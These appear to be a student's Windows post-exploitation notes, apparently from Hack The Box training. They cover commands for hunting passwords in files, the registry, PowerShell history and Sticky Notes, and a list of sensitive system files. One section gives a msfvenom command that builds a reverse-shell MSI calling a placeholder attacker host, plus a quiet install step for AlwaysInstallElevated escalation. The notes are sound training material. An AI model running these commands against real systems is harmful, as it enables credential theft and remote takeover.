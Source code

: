 # Tips
该主机角色是不是备份？
```powershell
tree
tree /F #显示包含文件
tree /A #使用标准ASCII字符绘树状图
tree /?

dir /S C:\path\to\directory #递归浏览
Get-ChildItem -Path C:\path\to\directory -Recurse #gci ls ....
```
# Search
## Content of Secret --> findstr/select-string
```powershell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
# 在特定目录下使用(C:\inetpub, C:\xampp, ....etc  )
findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.* 

select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password

# Chrome Dictionary.txt
gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
```
iis defaulte location: `C:\inetpub\wwwroot\web.config`
## Secret File Extension--> where / Gci
```powershell
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini
where /R C:\ *.config
reg query HKLM /f pass /t REG_SZ /s
```
## History/User file --> gci
主目录下文件还是需要手动查看
```powershell
# Search
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users -Include Transcripts* -File -Recurse -ErrorAction SilentlyContinue -force
Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore

Get-History
gc (Get-PSReadlineOption).HistorySavePath
#显示可访问的用户历史文件
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```
# Sticky Notes
桌面应用：便签纸上的信息，存储在数据库文件中，可以使用SQLite访问
```powershell
ls  C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState
```
Local Extract
```bash
#提取信息使用SQLITE
select Text from Note
strings plum.sqlite-wal
```
在powershell下打开sqlite文件:
[PSSQLite](https://github.com/RamblingCookieMonster/PSSQLite)
```powershell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\PSSQLite.psd1
$db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap    
```
# Saved Credentials
```powershell
dir env:
cmdkey /list

# powershell crediential object.
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
# IIS -> connectionString
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
# PUTTY
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\
```
## Runas
```powershell
runas /savecred /user:inlanefreight\bob "COMMAND HERE" #返回自己一个shell查看用户名
```
# Event Viewer
**Need RDP**
#### GUI
1. Win+R运行Eventvwr.msc打开事件查看器
2. 展开application & services logs --> MicroSoft --> Windows --> powershell --> Operational
#Tips Custom Views可以定制需要观察的logs（e.g. windows error..

# EasyWin - Reg Infomation - AlwaysInstallElevated / 
>Windows安装程序文件（也称为.msi文件）用于在系统上安装应用程序。它们通常以启动它的用户的权限级别运行。然而，可以配置它们以更高的权限级别从任何用户帐户（甚至是非特权用户）运行。这可能允许我们生成一个恶意的MSI文件，以管理员权限运行。

```powershell
# quickwin
%windir%\Panther\Unattended.xml # 无人值守安装 --> 凭证（plain/base64）
%windir%\Windows\Panther\Unattend.xml
%windir%\Windows\Panther\Unattend\Unattend.xml

C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer # --> 1?
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer# --> 1?

msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```
# Service files
```cmd
dir c:*vnc.ini /s /b
dir c:*ultravnc.ini /s /b
C:\inetpub
C:\xampp
```
# Sensitive files
敏感文件列表： https://github.com/carlospolop/Auto_Wordlists
```powershell
# User file
C:/Users/Administrator/NTUser.dat
C:/Documents and Settings/Administrator/NTUser.dat
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat

# WEB
C:\inetpub\wwwroot\Web.config
C:/inetpub/wwwroot/global.asa

C:/apache/logs/access.log
C:/apache/logs/error.log
C:/apache/php/php.ini
C:/Program Files (x86)/xampp/apache/conf/httpd.conf
C:/Program Files/Apache Group/Apache2/conf/httpd.conf
C:/Program Files/Apache Group/Apache/conf/httpd.conf
C:/Program Files/Apache Group/Apache/logs/access.log
C:/Program Files/Apache Group/Apache/logs/error.log
%windir%\system32\logfiles\httperr\httperr1.log

C:/Program Files/FileZilla Server/FileZilla Server.xml

%windir%\iis6.log (5,6 or 7)
# System Backups/db/setting File
%windir%\system32\config\SAM (only really useful if you have access to the files while the machine is off)
%windir%\System32\config\RegBack\SAM
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software
%WINDIR%\repair\security
%windir%\debug\NetSetup.log (AD domain name, DC name, internal IP, DA account)
C:/Windows/system32/config/regback/sam
C:/Windows/system32/config/regback/security
C:/Windows/system32/config/regback/system
C:/Windows/system32/config/regback/software
## Config
%windir%\system32\config\AppEvent.Evt (Application log)
%windir%\system32\config\SecEvent.Evt (Security log)
%windir%\system32\config\default.sav
%windir%\system32\config\security.sav
%windir%\system32\config\software.sav
%windir%\system32\config\system.sav
# sys config --> never meet
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
# virtual memory --> temp file?
%SYSTEMDRIVE%\pagefile.sys
## Network -> Hosts --> nerver meet
%windir%\System32\drivers\etc\hosts (dns entries)
%windir%\System32\drivers\etc\networks (network settings)
%windir%\system32\inetsrv\config\applicationHost.config
%windir%\system32\inetsrv\config\schema\ASPNET_schema.xml

# Log file
## SCCM 集成控制,用于管理 Microsoft 应用程序 --> 所以能获得什么信息？
%WINDIR%\system32\CCM\logs\*.log
# log of joining the domain.
%WINDIR%\debug\NetSetup.log
C:/inetpub/logs/LogFiles/W3SVC1/u_ex[YYMMDD].log

# sysprep file --> never meet
C:\sysprep.inf
C:\sysprep\sysprep.inf
C:\sysprep\sysprep.xml
%windir%\Windows\system32\sysprep.inf
%windir%\Windows\system32\sysprep\sysprep.xml

# Windows Rootdir File
C:/boot.ini

# mysql %MySQL% --> c:\MYSQL, C:\program ..\MYSQL, C:/Program Files/MySQL/MySQL Server 5.0/
%MySQL%/data/hostname.err
%MySQL%/data/mysql.err
%MySQL%/data/mysql.log
%MySQL%/data/hostname.err
%MySQL%/data/mysql-bin.log
%MySQL%/data/mysql.err
%MySQL%/data/mysql.log
%MySQL%/my.cnf
%MySQL%/my.ini
# php
C:/php4/php.ini
C:/php5/php.ini
C:/php/php.ini
# .ini
C:/Windows/win.ini
C:/WINNT/php.ini
C:/WINNT/win.ini
C:/xampp/apache/bin/php.ini
```
